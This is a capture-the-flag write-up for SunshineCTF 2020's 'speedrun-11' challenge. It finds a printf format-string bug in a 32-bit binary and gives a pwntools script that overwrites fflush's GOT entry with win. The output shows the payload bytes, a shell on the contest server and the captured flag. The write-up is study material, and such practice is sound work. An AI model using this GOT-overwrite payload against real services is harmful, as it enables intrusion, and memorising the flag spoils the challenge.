 # **speedrun-11**
## Task
nc chal.2020.sunshinectf.org 30011
File: chall_11
Tag: binary exploitation 

## Solution

### Checksec
```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
* Just NX enabled and anything else are openly such as BOF, ROP, GOT overwrite ....
* System 32 bit

### Decompile with ghidra
```c
void vuln(void)
{
  char local_d4 [204];
  
  fgets(local_d4,199,stdin);
  printf(local_d4);
  fflush(stdin);
  return;
}

void win(void)
{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  system((char *)(iVar1 + 0x15e));
  return;
}
```
Our target is that execute the `win` the same with [speedrun-02]().

Easy to recognize that we have a format string vulnerability with `printf` in `vuln` and then out task just change the `fflush` to `win` in the `GOT`.Done !

### Exploit
To implement the format string, we have to find out the `stack parameter offset`
We use following syntax
```bash
python3 -c "print('\nAAAABBBB' + '%x '*100)" | ./chall_11 
```
Then the result is 
```bash
So indeed 
AAAABBBBc7 f7f64580 8048520 0 0 41414141 42424242 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 8002520 ffe8bf2c 8049908 ffe8bf48 80485c0 f7f643fc ffffffff ffe8c00c 804000a
```
The byte presentation for `AAAA` and `BBBB` are `41414141` and `42424242` then we have the `offset = 6`

Use the `fmtstr_payload` in `pwn` module to generate the gadgets
The python exploit
```python
from pwn import *

binary = context.binary = ELF('./chall_11')
offset = 6
payload = fmtstr_payload(offset,{binary.got.fflush:binary.sym.win})
print("payload: ",payload)
p = remote('chal.2020.sunshinectf.org',30011)
p.sendline('IxZ')
p.sendline(payload)
p.interactive()
```
### Output
```bash
[*] '/home/kali/speedrun_sunshineCTF2020/chall_11'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
payload:  b'%8c%15$hhn%222c%16$hhn%926c%17$hnaaa\x1b\x99\x04\x08\x18\x99\x04\x08\x19\x99\x04\x08'
[+] Opening connection to chal.2020.sunshinectf.org on port 30011: Done
[*] Switching to interactive mode
So indeed 
       \xc7                                                                                                                                                                                                                             \xa0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              aaa\x1b\x99\x04\x18\x04\x19\x04
$ ls
chall_11
flag.txt
$ cat flag.txt
sun{afterlife-4b74753c2b12949f}
$ 
[*] Interrupted
```